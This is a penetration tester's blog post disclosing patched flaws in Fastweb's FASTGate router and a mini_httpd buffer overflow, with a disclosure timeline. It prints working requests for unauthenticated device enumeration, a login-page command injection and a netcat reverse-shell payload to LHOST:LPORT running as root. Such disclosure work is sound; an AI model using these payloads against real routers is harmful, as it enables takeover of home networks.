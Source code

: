 ```yaml
---
layout: post
title:  "Hacking into a FASTGate router with a command injection (and a bunch of other vulnerabilities)"
subtitle: "Missing authentication, command injection in login page, buffer overflow on the web-server. Is this real life?"
date:   2018-10-13 22:14:42 +0100
author: "santoru"
visible: 1
comments: true
---
```


This blog post describes how I found a couple of vulnerabilities in the FASTGate modem/router provided by Fastweb, an Italian telecommunication company, to its clients. Thanks to these vulnerabilities I was able to bypass the authentication layer as well as execute arbitrary code via command injection and get a reverse shell back to the router.
All vulnerabilities have been disclosed to Fastweb and are fixed in newer versions of the firmware.

* table of context
{:toc}

## FASTGate: the latest generation modem from Fastweb
Fastweb[^1] is an Italian telecommunications company that provides internet services. Since around march 2017 the company started to ship a new modem to its client: the FASTGate[^2].
Working as a penetration tester, and having the possibility to test it out, I started to analyze its web interface in order to find some vulnerabilities that could give me some unintended access to it. Goal of the night: popping up a shell!\ 
First step was to set up Burp Suite as a proxy and navigate a bit through the webpages to save some request and response.
The first screen I got was the login panel, as shown in figure 1.

{% include image.html url="img/fastgate/login.png" description="Figure 1 - Login panel" %}

### Broken authentication layer
I logged in and started to browse some pages and execute actions in order to understand how requests were handled. The first thing I noticed was that the login request did not return any cookie nor any token to the client and this made me suspicious: did they implement some authentication at all? \
They didn't.

What I noticed was that the web application was simply sending AJAX requests to a cgi binary, called `status.cgi`, using a parameter called `nvget` to specify the action.
For example, the following GET request was enough to list all devices connected to the router, even in the past, with their assigned IP, their MAC address and their hostname:
```
GET http://192.168.1.254/status.cgi?nvget=pc_list
```
Just to have a nice output to show, I developed a python script that parses the json response and display it:

{% include image.html url="img/fastgate/userenum.png" description="Figure 2 - Devices enumeration" %}

### Unauthenticated command injection in login page
With this trivial _authentication bypass_ via the `status.cgi` binary, I went back to the login request and started to manually fuzz both the username and password fields. After few tests I noticed that the response of the server, after putting a single quotation mark into the password field, printed an interesting line:
```
HTTP/1.0 200 OK
sh: syntax error: unterminated quoted string
Content-type: text/html
```

Uhm.. what? Am I dreaming? Is my controlled input really used to execute a shell command with no sanitization at all?
I wanted to see if I could actually run some commands, so I tried executing `ping` which is usually a command installed on any distribution:
```
GET /status.cgi?_=1512070412178&cmd=3&nvget=login_confirm&password='$(ping)'&remember_me=1&username=admin HTTP/1.1
```
The response was the confirmation I was looking for:
{% include image.html url="img/fastgate/ping.png" description="Figure 3 - Ping command" %}


As shown, I can successfully send arbitrary command by adding to the password input the text ```'$(`command`)'```.
The impact of this vulnerability is full code execution on the router, but it's not clear what privileges I'm running with, having a shell to quickly interact with the router would be ideal!

#### Getting the reverse shell
The command execution is cool, but can we go further? Can we get a real shell into the system? Of course we can! After some enumeration done via the command injection, I noticed that the router shipped several `netcat` binaries, one of which was luckily compiled with support to the `-e` parameter that, quoting the man page, `execute external program after accepting a connection or making connection`.
Let's use this `nc` binary to run a reverse shell:
```
GET /status.cgi?cmd=3&nvget=login_confirm&password=AA'$(`/statusapi/usr/bin/nc%20LHOST%20LPORT%20-e%20/bin/bash`)AAremember_me=1&username=admin HTTP/1.1
```
This was enough to get a full reverse shell into the system, and guess what? The process is running as `root` so we get full access to the device. 

{% include image.html url="img/fastgate/poc.png" description="Figure 4 - Exploit executed to get a shell" %}


## Conclusions
For documentation purpose, the vulnerable software version that I tested is the `v1.0.1b`, with firmware version `0.00.47_FW_200_Askey2017-05-17 17:31:59`.\
It must be noted that in order to exploit the vulnerability the attacker must be authenticated to the Wi-Fi network, as the admin interface is exposed on the internal network.

{% include image.html url="img/fastgate/version.png" description="Figure 5 - Vulnerable version" %}


The communication with Fastweb didn't go very smooth. I tried to contact them multiple time to report this vulnerability but after an initial ack they stopped any communication with me.
Few weeks after my emails, they released a new firmware version that addressed most of the vulnerabilities:
- Login request now returns a session token that it is used to authenticate all requests to `status.cgi`, so it seems that they fixed the trivial "bypass".
- They initially added a CSRF protection by setting a cookie called `XSRF-TOKEN`: when sending a request, the web application send both the cookie and a `X-XSRF-TOKEN` header with the same value. There's no actual validation on the token value, no matter what the user decide to sent via these two headers, if the cookie matches the token value, the server will accept it.
- The command injection was still present in a bunch of updates, but was eventually fixed.

At the time, they didn't have any responsible disclosure program nor any specific security contact, but they did create one shortly after my first email. The Responsible Disclosure[^3] webpage they created has an Hall-of-Fame, but I was not mentioned there.


## Bonus: mini\_httpd v1.27 / thttpd v2.27 buffer overflow
One of the first things I noticed reading the response from the router was the `Server` header: `mini_httpd/1.27 07Mar2017`.\
According to the developer's website of `mini_httpd`[^4], it seemed to be the latest available version at the time and I couldn't find any public information about known vulnerabilities on it.

Since the source code was available, I started to do some analysis and I noticed a trivial buffer overflow in the `htpasswd.c` file, which turned out to be a custom and simplified version of the original _htpasswd_ utility developed for the Apache HTTP Server and used to`'create and update the flat-files used to store usernames and password for basic authentication of HTTP users`.\
The simplified version developed by ACME Laboratories had a buffer overflow vulnerability since the username parameter provided through the command line interface was copied into a buffer without any bound check. The vulnerability could be exploited to execute malicious payloads if the utility can be used remotely to set up, for example, an account: In this case an attacker can craft an exploit and gain code execution into the vulnerable system.\
After disclosing the vulnerability to the maintainer of the web-server an update that fixed the vulnerability was released through the developer's website.

### Disclosure timeline of the Buffer Overflow
- 01 December 2017 - Contacted the developer to ask how to report security findings
- 12 December 2017 - Sent the details of the vulnerability to the developer
- 13 December 2017 - Developer acknowledged the vulnerability
- 13 December 2017 - CVE assigned: _CVE-2017-17663_
- 04 February 2018 - Update released for mini\_httpd & thttpd and [advisory published](https://acme.com/updates/archive/199.html) for the vulnerability.

---

## Footnotes
[^1]: [Fastweb S.p.A.](https://www.fastweb.it/)
[^2]: [FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)
[^3]: [Fastweb Responsible Disclosure](https://www.fastweb.it/corporate/responsible-disclosure/)
[^4]: [mini_httpd - small HTTP server](https://acme.com/software/mini_httpd/)